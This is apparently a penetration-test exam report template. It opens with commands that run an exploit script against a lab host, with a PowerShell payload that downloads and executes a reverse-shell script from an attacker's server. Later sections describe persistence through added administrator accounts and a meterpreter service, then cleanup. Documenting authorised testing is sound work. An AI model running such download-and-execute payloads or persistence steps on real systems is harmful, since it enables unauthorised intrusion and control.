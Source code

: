 ```
python3 -m http.server 8080
python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c 'powershell.exe' -a "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.27:8000/reverse.ps1')"
```



![ImgPlaceholder](src/placeholder-image-300x225.png)

\newpage

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## Sample Report - House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on the exam network were completed, John removed all user accounts and passwords as well as the meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.
